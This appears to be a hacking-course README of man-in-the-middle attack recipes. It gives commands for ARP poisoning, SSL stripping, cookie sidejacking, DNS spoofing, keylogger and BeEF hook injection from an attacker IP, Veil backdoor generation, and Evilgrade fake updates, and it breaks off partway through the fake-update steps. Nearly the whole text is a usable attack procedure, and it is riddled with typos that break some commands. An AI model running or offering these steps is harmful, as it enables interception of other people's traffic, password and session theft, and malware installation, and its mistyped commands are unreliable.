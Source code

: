 # Main In The Middle Attacks

### ARP Poisoning

This is one of the most dangerous and effective attacks that can be used to *redirect packets to and from any client to our device* and since we have the network key, we can read/modify/drop the packets. This allows us to launch very powerful attacks. It's very hard to protect against it as it exploits the insecure way that ARP works.

ARP security issues:
- Each ARP request/response is trusted.
- Clients can accept responses even if they did not send request.

**ARPSPOOF**

Arpspoof is a tool part of a suit called dnsiff, which contains a number of network penetration tools. Arpspoof can be used to launch a MITM and redirect traffic to flow through our device.

1. Command tell the  target client that I am the router.
```
arpspoof -i [interface] -t [target IP] [AP IP]
Ex: arpsoof -i wlan0 -t 192.168.1.5 192.168.1.1
````

2. Command tell the AP that I am the target client.
```
aprspoof -i [interface] -t [AP IP][target IP]
Ex: arpsoof -i wlan0 -t 192.168.1.1 192.168.1.5
```

3. Enable IP forward to allow packets to flow through our device without being dropped.
`echo 1> /proc/sys/net/ipv4/ip_froward`

## MAN IN THE MIDDLE FRAMEWORK (MITMf)

MITMf is a framework that allows to launch a number of MITM attacks. MITMf also starts SSLstrip automatically to bypass HTTPS/SSL.

```
mitmf-arp-spoof-gateway [GATEWAY IP] --targets [TARGET IPs] -i [interface]
Ex: mitmf --arp --spoof --gateway 10.20.14.1 --targets 10.20.14.206 - eth0/wlan0
```

`echo 1 > /proc/sys/net/ipv4/ip_forward`

If you get error like `Import Error: No module named bdfactory` then you have to install first **the-backdoor-factory** module.

`https://github.com/secretsquirrel/the-backdoor-factory`

`apt-get update`
`apt-get install backdoor-factory`

If you get this error agian then you have to isntall manually.

```
git clone https://github.com/secretsquirrel/the-backdoor-factory.git
mkdir /usr/share/mitmf/bdfactory
cd the-backdoor-factory
cp -r ./* /usr/share/mitmf/bdfactory/ 
cd /usr/share/mitmf/bdfactory
```
### Bypassing HTTPS

Most of the website use https in their registration pages. These pages are validated using an SSL certificate and there for will show a warning to the user that the certificate is valaid. SSLstrip is a tool that can be used to downgrade HTTPs requests to HTTP allowing us to sniff passwords without displaying a warning to the user.

*Note: MITMf starts SSLstrip.*

### Session Hijacking

If the user uses this feature hte authentication happens using the cookies and not the user and password. So instead of sniffing the password we can sniff the cookies and inject them into our browser, this will allows us to login to the user's account without using the password.

`apt-get intall ferret-sidejack`

`ferret -i [interface]`

`hamster`

### DNS Spoofing

DNS Spoofing allows us to refirect any request to a certain domain to another domain. We have to run apache server.

`service apache2 start`

1. Edit DNS settings.

`leafpad /etc/mitmf/mitmf.conf`

2. Run ettercap to arp poison target (s) and enable the dns_spoof plugin.

```
mitmf --arp --spoof --gateway [GATEWAY IP] --targets [TARGET IP] -i eth0/wlan0 --dns
Ex: mithf --arp --spoof --gateway [10.20.14.1] --targets [10.20.14.216] -i eth0/wlan0 --dns
```

### Capturing Screen of Target & Injecting a Keylogger

Default Interval 10s
```
mitmf --arp --spoof --gateway [GATEWAY IP] --targets [TARGET IP] -i eth0/wlan0 --screen
Ex: mithf --arp --spoof --gateway [10.20.14.1] --targets [10.20.14.216] -i eth0/wlan0 --screen

mitmf --arp --spoof --gateway [GATEWAY IP] --targets [TARGET IP] -i eth0/wlan0 --screen --interval 5
Ex: mithf --arp --spoof --gateway [10.20.14.1] --targets [10.20.14.216] -i eth0/wlan0 --screen --interval 5
```

```
mitmf --arp --spoof --gateway [GATEWAY IP] --targets [TARGET IP] -i eth0/wlan0 --jskeylogger
Ex: mithf --arp --spoof --gateway [10.20.14.1] --targets [10.20.14.216] -i eth0/wlan0 --jskeylogger
```

Note: If you get *AttributeError: ClientRequest instance has no attribute 'headers'* this error then you have to install *twisted* python module.

`pip install Twisted==15.5.0`

## Beef Framework

Browser Exploitation Framework allowing us to launch a number of attacks on a hooked target. Target are hooked once they load a hook url.

- DNS spoof requests to a page containing a hook
- Inject the hook in browser pages (need to be MITM)

### Hooking Clients To Beef & Stealing Passwords

First run **Beef** tools. Its a default pentesting tool in kali. Login hook. Its username and password is beef.

Then we will **mitmf** using this command:

```
mitmf --arp --spoof --gateway [GATEWAY IP] --targets [TARGET IP] -i eth0/wlan0 --inject --js-url http://
mitmf --arp --spoof --gateway 10.20.14.1 --target 10.20.14.216 -i wlan0 --inject --js-url http://10.20.14.203:3000/hook.js
```

## WIRESHARK

Wireshark is a network protocol analyser tool. Designed to help network administrators to keep track of what is happening in their network. Its not designed for hackers or hacking but a hacker knows how to use network tools for there own purpose.

How it works?

- Logs packets that flow through the slelected interface.
- Analyse all the packets.

*When we are the MITM, sireshark can be used to sniff and analyse traffic sent/received by targes.*

## Generating An Undetecttable Backdoor

- Install veil-evasion			`apt-get install veil-evasion`
- Run veil-evasion				`veil`
- Select a backdoor / payload	`use [payload number]`
- Set options					`set [option] [value]`
- Generate Backdoor				`generate`

## CREATE A FAKE UPDATE

- Fake an update for an already installed program.
- Install backdoor instead of the update.
- Requires DNS spoofing + Evilgrade (a server to server the update).

1. Download and install Evilgrade using the instructions in the resources.

`git clone https://github.com/infobyte/evilgrade.git`

2. Start evilgrade.

`evilgrade`

3. Check program then can be hijacked.

`show modules`

4. Select one.

`configure [module]`

5. Set backdoor location.

`set agent [agent location]`

6. Start server

`start`

7. Start dns spoofing and handler.

